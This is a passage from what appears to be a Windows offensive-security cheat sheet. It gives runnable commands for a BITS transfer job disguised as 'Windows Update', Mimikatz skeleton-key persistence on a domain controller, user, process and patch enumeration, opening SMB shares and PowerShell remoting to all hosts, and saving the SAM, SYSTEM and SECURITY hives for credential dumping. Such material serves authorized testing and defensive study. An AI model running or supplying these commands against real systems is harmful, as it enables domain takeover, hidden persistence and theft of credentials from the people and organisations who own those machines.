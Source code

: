 ```

# Set retry delay on transient error in seconds
bitsadmin /SetMinRetryDelay "Windows Update" 120

# Assign custom HTTP Request header
bitsadmin /SetCustomHeaders "Windows Update" "Caller:%USERNAME%@%COMPUTERNAME%"

# Activate job for transfer
bitsadmin /Resume "Windows Update" 
```
### Persistence with Skeleton Key

> Must be ran on Domain Controller and requires domain admin level privileges

```
privilege::debug
misc::skeleton // authenticate as any domain user using the password "mimikatz"
```
### WMIC Enumeration
```
wmic useraccount get name						# get users
wmic group get name							# get groups
wmic startup get caption,command,location,user /format:list		# get startup program information
wmic process get name,processid,parentprocessid,executablepath 		# get process information
wmic qfe get hotfixid,caption,installedon 				# check for missing patches
wmic share list								# enumerate local SMB shares
wmic service get name,processid,startmode,state 			# get service information
wmic environment get name,variablevalue /format:csv			# get environment variables
```
### PowerShell CIM/WMIC Enumeration
```powershell
get-ciminstance -classname win32_useraccount | select name
get-ciminstance -classname win32_environment | select name,variablevalue
```
### Enabling SMB and Creating a New Share with PowerShell
```
Set-SmbServerConfiguration -EnableSMB2Protocol $true
New-SmbShare -Name 'gs_share' -Path 'C:\Temp\' -FullAccess 'bin3xish477' -Description 'Temp file share'
```
### Check for Remote Access to Target Machine
```powershell
gci \\[target\c$
# OR
Get-WmiObject -Class win32_operatingsystem -Computername [target]
# Or with PowerView
Find-LocalAdminAccess
```
### Enabling PowerShell Remoting
```powershell
Enable-PSRemoting -Force
# Allow all hosts to PSremote in a workdrop, non-domain environment
Set-Item WSMan:\localhost\Client\TrustedHosts -Value "*" -Force
Restart-Service WinRM
# Don't forget to add user to remote management user group!
Add-LocalGroupMember -Group 'Remote Management Users' -Member 'bin3xish477'
```
### Cathering Registry Hive for Dumping Credentials
```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```